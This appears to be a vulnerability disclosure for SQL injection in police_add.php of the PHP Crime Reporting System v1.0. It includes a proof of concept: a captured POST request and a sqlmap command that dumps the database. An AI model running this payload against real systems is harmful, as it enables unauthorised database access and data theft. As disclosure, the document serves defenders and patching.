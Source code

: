 # Crime Reporting System - SQL Injection (Police Add)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Crime Reporting System](https://code-projects.org/crime-reporting-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Crime-Reporting-System/police_add.php

> Four parameters `police_name` , `police_id` , `police_spec` and `password` within police_add.php are vulnerable to SQL Injection.


![police_name](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.3crs-policeadd-policename-sqli.png)

![police_id](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.4crs-policeadd-policeid-sqli.png)

![police_spec](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.5crs-policeadd-policespec-sqli.png)

![password](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.6crs-policeadd-password-sqli.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `police_add.txt`:

```
POST /Crime-Reporting-System/police_add.php HTTP/1.1
Host: 172.16.8.56
Content-Length: 67
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.8.56
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.16.8.56/Crime-Reporting-System/police_add.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=83m3g3m53f33hm6so30ku7lng6
Connection: close

police_name=123&police_id=123&police_spec=123&password=123&s=Submit
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r police_add.txt --level 5 --risk 3 --batch --dbms MYSQL --dump
```


## Recommendations

When using this Crime Reporting System, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
